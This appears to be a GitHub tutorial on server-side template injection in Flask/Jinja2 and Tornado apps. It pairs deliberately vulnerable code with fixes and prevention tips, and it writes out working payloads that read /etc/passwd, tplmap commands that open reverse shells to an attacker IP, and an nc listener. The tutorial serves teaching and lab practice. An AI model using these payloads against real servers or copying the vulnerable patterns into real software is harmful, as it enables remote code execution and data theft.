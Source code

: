# SSTI-Basics

Server Side Templates provide an easier method of managing the dynamic generation of HTML code than the mess we have described above. The big advantage is that you can generate dynamic HTML pages that, on the server side, read like static HTML.

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
if attackers are able to write such an expression into a template file, they can effectively execute arbitrary functions. But it doesn’t necessarily need to be a file that contains your template. Under the hood, a template engine would convert the file to a string anyway in order to replace the expressions with their result. That’s why many template engines also enable you to pass a string to them instead of the location of a file.

Server Side Template Injection vulnerabilities (SSTI) occur when user input is embedded in a template in an unsafe manner and results in remote code execution on the server. Any features that support advanced user-supplied markup may be vulnerable to SSTI including wiki-pages, reviews, marketing applications, CMS systems etc

You can compare this to require() and eval() functions. require() includes the file and executes it; eval() executes a string instead of a file. You probably know that it’s a bad idea to pass unsanitized input to eval(). Every decent book about programming should mention this at least a dozen times. But this is often not considered when you deal with a template engine. That means sometimes you can see code like this.

Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.


Vulnerable Code (Flask & Jinja2) Example 1

```
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')    
    output = Jinja2.from_string('Hello ' + name + '!').render()  // The name variable is concatenating to the template string

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=
// Replace IP & Port for your environment

```
Secure Code (Flask)

```

from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')   
    output = Jinja2.from_string('Hello {{name}}!').render(name = name)  // The name variable gets passed to the template context and processed server-side

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=   
// Replace IP & Port for your environment    
```
SSTI Exploitation

SSTI Vulnerability Test

```
curl -g http://127.0.0.1:8080/page?name={{5*5}}
Output: Hello 25

```
SSTI /etc/passwd Test

```
curl -g "http://127.0.0.1:8080/page?name={{+''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()+}}"

```

SSTI Reverse Shell

Expliot for Reverse Shell
```
python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell <attacker_ip> <attacker_port>
Example: python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell 10.10.10.10 1337
```
Capture Reverse Shell

```
nc -lvnp 1337

```
Vulnerable Code (Flask & Jinja2) Example 2

Create new file called vuln.py
```
from flask import Flask, request, render_template_string
from jinja2 import Template

app = Flask(__name__)
app.config.from_pyfile('config.py')

@app.route("/",  methods=['GET'])
def get_username():
    return render_template_string(
        """
        <form action="/hello">
            <label for="username">Enter username:</label><br>
            <input type="text" size="50" name="username" ><br>
            <input type="submit" value="Submit">
        </form> 
        """
    )

@app.route("/hello",  methods=['GET', 'POST'])
def say_hello():
    username = request.args.get('username')
    template = Template(
        """
        <h2> Hello <i style='color: royalblue;'> \
            {{ username }} </i>! Nice to meet you </h2>
        """
    )
    source = template.render(username=username)
    a = render_template_string(source)
    return a

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

Create config file called config.py
```
import os
VERY_SECRET = os.environ.get('VERY_SECRET')
```
Test Vulnerability
```
http://127.0.0.1:9999/hello?username={{5*5}}
```
Exfiltrate the /etc/passwd file
```
http://127.0.0.1:9999/hello?username={{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/hello?username= --reverse-shell 10.10.10.10 1337
```

Vulnerable Code (Tornado) Example 1

Create new file called server.py
```
import tornado.template
import tornado.ioloop
import tornado.web
TEMPLATE = '''
<html>
 <head><title> Hello {{ name }} </title></head>
 <body> Hello FOO </body>
</html>
'''
class MainHandler(tornado.web.RequestHandler):
 
    def get(self):
        name = self.get_argument('name', '')
        template_data = TEMPLATE.replace("FOO",name)
        t = tornado.template.Template(template_data)
        self.write(t.generate(name=name))
 
application = tornado.web.Application([
    (r"/", MainHandler),
], debug=True, static_path=None, template_path=None)
 
if __name__ == '__main__':
    application.listen(9999)
    tornado.ioloop.IOLoop.instance().start()
```
Access the web application
```
http://127.0.0.1:9999/?name=tarzan
```
Test for vulnerability
```
http://127.0.0.1:9999/?name={{2*2}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/?name= --reverse-shell 10.10.10.10 1337
```
# Preventing SSTI Attacks

- Do not embed user input dynamically into client-side templates and avoiding server-side reflection of user input
- Avoid the use of user-modified templates. If that is not possible, prevent impact by limiting server-side access through sandboxing of the application and operating system
- Update frameworks and libraries to the most current version
- Load static template files
